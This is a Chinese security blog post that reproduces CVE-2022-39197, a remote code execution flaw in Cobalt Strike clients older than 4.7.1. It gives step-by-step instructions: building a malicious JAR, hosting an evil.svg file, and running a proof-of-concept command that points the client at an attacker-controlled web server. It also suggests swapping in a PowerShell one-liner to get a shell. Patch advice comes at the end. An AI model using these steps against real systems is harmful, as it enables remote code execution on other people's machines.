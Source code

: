 #  CS < 4.7.1 RCE 复现踩坑记录

PANDA墨森  [ 橘猫学安全 ](javascript:void\(0\);)

**橘猫学安全** ![]()

微信号 gh_af700ee13397

功能介绍 每日一干货🙂

____

___发表于_

收录于合集 #网络安全技术 227个

文末附漏洞分析

0x01 漏洞简介

由于Cobalt Strike 使用 GUI 框架 SWING开发，未经身份验证的远程攻击者可通过在 beacon 元数据中注入恶意 HTML
标签，使得CS对其进行解析时加载恶意代码，从而在目标系统上执行任意代码（来自：奇安信 CERT）

  

0x02 漏洞危害

获取到攻击者的CS木马样本后，在连接CS的客户端进行命令执行，反制攻击者

影响的版本：

Cobalt Strike < 4.7.1

  

0x03 漏洞复现

我这里用的CS4.4（实际测试网传的4.4/4.5版本，包括各类魔改版本（包括某些版本做了简单的标签过滤），不加载禁止渲染html的补丁都是可以RCE的）

1、CS木马样本文件

2、EXP地址：https://github.com/its-arun/CVE-2022-39197

  

1、编辑恶意文件内容

修改Exploit.java，更改exec内代码参数为要执行的命令，我这里执行calc：

![]()

  

  

2、编译文件

使用IDEA+maven进行编译，编译完成后会在target目录下生成EvilJar-1.0-jar-with-
dependencies.jar文件，具体如下

![]()

  

3、将生成的恶意文件和svg文件放在同一路径下

![]()

  

将木马样本放在与cve-2022-39197.py脚本同一路径下

![]()

4、在serve路径下开启一个web服务

![]()

  

![]()

  

5、编辑evil.svg文件，替换为当前路径启用的恶意jar的web地址

![]()

  

  

6、执行POC脚本

  * 

    
    
    python3 cve-2022-39197.py update.exe http://192.168.91.203:9898/evil.svg

  

运行后，cs客户端上可以看到此时木马已经成功上线

![]()

  

  

当尝试获取用户会话的进程列表

当滚动进程列表进行查看当前会话所在进程名时即触发，请求攻击者web服务上的evil.svg文件，而evil.svg文件又继续加载请求恶意文件EvilJar-1.0-jar-
with-dependencies.jar，成功执行命令，从而达到RCE。

  

细节1：貌似直接滑下去看的话是不会触发的，需要鼠标焦点在含有xss payload的进程名上（但有朋友不会，具体师傅们自测）

![]()

  

  

细节2：执行脚本的时候，马儿名称要是beacon.exe，不然也是不行的

![]()

  

可以看到进程名没有被修改

![]()

  

  

看看cve-2022-39197.py脚本代码：

beacon.exe在代码里写死了

![]()

  

修改后：

![]()

  

  

就可以了：

![]()

  

经测试：

WINDOWS下可以直接将执行的命令改成powershell一句话接上线

  

请求日志：

![]()

  

  

脚本运行100秒后会自动结束木马进程：

![]()

  

  

05修复建议

1、升级至 Cobalt Strike 4.7.2版本

2、加载补丁插件全局禁止html渲染：

地址：https://github.com/burpheart/CVE-2022-39197-patch

启动客户端的时候加入agent参数就行：

![]()

  

不渲染html无法触发：

![]()

  

默认关于页面的html内容也不渲染了：

![]()

  

参考链接：

[https://mp.weixin.qq.com/s/OSxcLX21bIdFy1VGd93W7Q](https://mp.weixin.qq.com/s?__biz=MzkyMDE4NzE1Mw==&mid=2247484355&idx=1&sn=1d2df2c1eac378875fe1c0d408478979&scene=21#wechat_redirect)

  

详细分析文章：

[https://mp.weixin.qq.com/s/l5e2p_WtYSCYYhYE0lzRdQ](https://mp.weixin.qq.com/s?__biz=MzIxNDAyNjQwNg==&mid=2456098978&idx=1&sn=d511d5a674d84eeaf262c8e389ae0403&scene=21#wechat_redirect)

  

[https://mp.weixin.qq.com/s/89wXyPaSn3TYn4pmVdr-
Mw](https://mp.weixin.qq.com/s?__biz=MzkzNjMxNDM0Mg==&mid=2247485450&idx=1&sn=5662a9f2c081fc8521eee651b357323f&scene=21#wechat_redirect)

如有侵权，请联系删除

 **推荐阅读**

[实战|记一次奇妙的文件上传getshell](http://mp.weixin.qq.com/s?__biz=Mzg5OTY2NjUxMw==&mid=2247495718&idx=1&sn=e25bcb693e5a50988f4a7ccd4552c2e2&chksm=c04d7718f73afe0e282c778af8587446ff48cd88422701126b0b21fa7f5027c3cde89e0c3d6d&scene=21#wechat_redirect)  
[「 超详细 | 分享
」手把手教你如何进行内网渗透](http://mp.weixin.qq.com/s?__biz=Mzg5OTY2NjUxMw==&mid=2247495694&idx=1&sn=502c812024302566881bad63e01e98cb&chksm=c04d7730f73afe267fd4ef57fb3c74416b20db0ba8e6b03f0c1fd7785348860ccafc15404f24&scene=21#wechat_redirect)  
[神兵利器 | siusiu-
渗透工具管理套件](http://mp.weixin.qq.com/s?__biz=Mzg5OTY2NjUxMw==&mid=2247495385&idx=1&sn=4d2d8456c27e058a30b147cb7ed51ab1&chksm=c04d69e7f73ae0f11b382cddddb4a07828524a53c0c2987d572967371470a48ad82ae96e7eb1&scene=21#wechat_redirect)  
[一款功能全面的XSS扫描器](http://mp.weixin.qq.com/s?__biz=Mzg5OTY2NjUxMw==&mid=2247495361&idx=1&sn=26077792908952c6279deeb2a19ebe37&chksm=c04d69fff73ae0e9f2e03dd8e347f35d660a7fd3d51b0f5e45c8c64afc90c0ee34c4251f9c80&scene=21#wechat_redirect)  
[实战 |
一次利用哥斯拉马绕过宝塔waf](http://mp.weixin.qq.com/s?__biz=Mzg5OTY2NjUxMw==&mid=2247495331&idx=1&sn=94b63a0ec82de62191f0911a39b63b7a&chksm=c04d699df73ae08b946e4cf53ceea1bc7591dad0ce18a7ccffed33aa52adccb18b4b1aa78f4c&scene=21#wechat_redirect)  
[BurpCrypto:
万能网站密码爆破测试工具](http://mp.weixin.qq.com/s?__biz=Mzg5OTY2NjUxMw==&mid=2247495253&idx=1&sn=d4c46484a44892ef7235342d2763e6be&chksm=c04d696bf73ae07d0c16cff3317f6eb847df2251a9f2332bbe7de56cb92da53b206cd4100210&scene=21#wechat_redirect)  
[快速筛选真实IP并整理为C段 --
棱眼](http://mp.weixin.qq.com/s?__biz=Mzg5OTY2NjUxMw==&mid=2247495199&idx=1&sn=74c00ba76f4f6726107e2820daf7817a&chksm=c04d6921f73ae037efe92e051ac3978068d29e76b09cf5b0b501452693984f96baa9436457e4&scene=21#wechat_redirect)  
[自动探测端口顺便爆破工具t14m4t](http://mp.weixin.qq.com/s?__biz=Mzg5OTY2NjUxMw==&mid=2247495141&idx=1&sn=084e8231c0495e91d1bd841e3f43b61c&chksm=c04d6adbf73ae3cdbb0a4cc754f78228772d6899b94d0ea6bb735b4b5ca03c51e7715b43d0af&scene=21#wechat_redirect)  
[渗透工具｜无状态子域名爆破工具（1秒扫160万个子域）](http://mp.weixin.qq.com/s?__biz=Mzg5OTY2NjUxMw==&mid=2247495099&idx=1&sn=385764328aff5ec49acddab380721af0&chksm=c04d6a85f73ae393ffab22021839f5baec3802d495c34fb364cbdd9b7cb0cf642851e9527ba7&scene=21#wechat_redirect)  
 **查看更多精彩内容，还请关注** **橘猫学安全：** **每日坚持学习与分享，觉得文章对你有帮助可在底部给点个“** **再看 ”**

预览时标签不可点

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

